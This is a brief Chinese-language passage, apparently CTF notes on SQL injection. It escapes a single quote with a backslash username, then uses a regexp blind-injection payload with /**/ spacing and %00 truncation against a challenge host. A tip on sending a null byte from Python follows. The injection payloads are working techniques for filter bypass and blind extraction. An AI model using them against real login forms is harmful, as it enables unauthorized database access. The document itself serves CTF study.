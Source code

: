 




















过滤单引号时闭合单引号：`select * from users where username='123' and passwd='123'`，让`username=\`使后面的`'`被转义，再由`passwd=...;`即可闭合单引号：

```python
URL_PREFIX = "http://703919f8-2d7e-4009-83cf-425433e65a3d.node4.buuoj.cn:81"
print(SQL_TEMPLATE.format('\\','||/**/passwd/**/regexp/**/"^a";%00'))
	# select * from users where username='\' and passwd='||/**/passwd/**/regexp/**/"^a";%00'
```





SQL`%00`会认为这为当前命令结尾，可以截断字符串。`....;%00....`，可代替注释符



Python处理特殊字符时会自动URL编码，例如：

```python
data = "%00" # ×
data = chr(0) # √
```

